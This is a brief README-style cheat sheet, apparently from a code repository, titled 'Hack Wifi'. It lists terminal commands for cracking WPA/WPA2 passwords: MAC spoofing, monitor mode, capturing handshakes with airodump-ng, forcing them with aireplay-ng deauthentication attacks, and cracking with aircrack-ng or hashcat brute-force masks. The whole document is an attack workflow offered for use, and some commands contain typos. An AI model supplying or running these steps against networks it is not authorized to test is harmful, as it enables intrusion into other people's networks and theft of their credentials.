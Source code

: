 # Hack Wifi
## macos
https://martinsjean256.wordpress.com/2018/02/12/hacking-aircrack-ng-on-mac-cracking-wi-fi-without-kali-in-parallels/
## kali or ubuntu

https://www.wikihow.com/Hack-WPA/WPA2-Wi-Fi-with-Kali-Linux


hack wifi (wpa2-wpa) with kali or ubuntu
#### new terminal 1
You can change your mac address(Optional)
```
ifconfig wlan0 down
macchanger -m 00:00:00:00:00 wlan0
ifconfig wlan0 down
```
then You have to switch to monitor mode
```
airmon-ng start wlan0
```
#### new terminal 2
look available Wifis
```
airodump wlan0mon

airodump-ng -c channel --bssid MAC -w /root/Desktop/ mon0

```
#### new terminal 3
attack to get handshake in terminal 2
```
aireplay-ng -0 <60> -a <BSSID> wlan0mon
```

##########
```
cap2hccapx.bin name.cap name.hccapx
hashcat.exe -m 2500 capture.hccapx rockyou.txt
hashcat.exe -m 2500 -a3 capture.hccapx ?d?d?d?d?d?d?d?d

```

#### final step
after You get handshake in (2)

you can try to crack password
```
aircrack-ng -w <wordlist> -b <BSSID> <handshake file>
```
##### or
you can crack with GPU . its faster and better with hashcat

first convert handshake file
```
airecrack-ng <INP> -J <OUT> #cap to hcap   
```
then
```
hashcat -m 2500 -u 4096 <.hcap file> <wordlist>
```
hashcat manual
```
-a3 #brute force mode

?l=abc...z
?d=012...9
?u=ABC...Z
?s=!#...{}
?a=?l?u?d?s

hashcat -m 2500 -a3 --force kh_dongle-01.hccapx 0912711?d?d?d?d
```
